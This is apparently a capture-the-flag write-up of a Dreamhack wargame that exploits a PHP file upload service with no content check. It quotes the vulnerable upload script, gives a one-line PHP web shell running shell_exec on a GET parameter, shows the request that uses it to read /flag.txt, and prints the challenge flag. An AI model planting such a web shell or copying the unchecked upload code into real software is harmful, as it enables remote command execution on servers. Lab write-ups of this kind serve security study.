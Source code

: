 ```yaml
---
title: image-storage
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, File upload vulnerabilities]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/38/](https://dreamhack.io/wargame/challenges/38/)

## Description
> It is a file storage service written in PHP.
>
> Use the file upload vulnerability to obtain the flag. The flag is located in ```/flag.txt```

### Attached

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```
{: file="./upload.php" }

## Analyzation

It does not check the file's content. Shell code can be easily uploaded.

## Solution

Upload the ```exploit.php``` file

```php
<?php
echo shell_exec($_GET['command'])
?>
```
{: file="exploit.php" }

(See [php shell_exec() vs exec()](https://stackoverflow.com/questions/7093860/php-shell-exec-vs-exec))

Then call that file

```
http://host3.dreamhack.games:17421/uploads/exploit.php?command=cat%20/flag.txt
```

The flag is

```
DH{c29f44ea17b29d8b76001f32e8997bab}
```